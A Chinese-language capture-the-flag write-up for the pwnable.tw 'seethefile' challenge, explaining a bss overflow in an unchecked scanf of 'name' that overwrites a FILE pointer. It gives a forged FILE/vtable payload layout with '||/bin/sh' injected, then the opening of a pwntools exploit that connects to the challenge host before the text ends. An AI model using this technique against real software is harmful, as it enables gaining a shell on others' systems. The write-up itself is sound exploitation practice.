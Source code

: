 openfile()：magicbuf清0，打开文件获取fp操作，判断文件名是否为flag，是则输出危险输入，结束进程

readfile()：判断fp，若真，fp文件内容读入magicbuf

writefile()：判断magicbuf和filename一些关于flag的关键字，为真，则无法打印

closefile()：关闭fp

case 5：输入 name并打印，然后关闭fp

## 漏洞点：

这里name没有做长度检测，会导致bss溢出

```c
case 5:
	printf("Leave your name :");
	__isoc99_scanf("%s", name);
	printf("Thank you %s ,see you next time\n", name);
	if ( fp )
    fclose(fp);
    exit(0);
    return result;
```

刚好name后面是fp，之后会调用fclode(fp)

## 利用

伪造FILE和vtable，/bin/sh前加||或;作为命令分隔符

```
fp   00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
     *
name 00000020  84 b2 04 08  ff df ff ff  7c 7c 2f 62  69 6e 2f 73  │····│····│||/b│in/s│
     00000030  68 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │h···│····│····│····│
     00000040  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
     *
     000000b0  00 00 00 00  00 00 00 00  1c b3 04 08  40 c9 61 f7  │····│····│····│@·a·│
     000000c0  40 c9 61 f7  40 c9 61 f7  0a                        │@·a·│@·a·│·│
     000000c9
```

exp

```python
#!/usr/bin/env python3
from pwn import *
import sys, time

context(arch='amd64',os='linux',log_level='debug')

debug = 0
if debug:
	elf = ELF("./seethefile")
	libc = ELF("./libc_32.so.6")
	io = process(elf.path)
else:
	elf = ELF("./seethefile")
	libc = ELF("./libc_32.so.6")
	io = remote("chall.pwnable.tw",10200)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
r = io.recv                                    #
```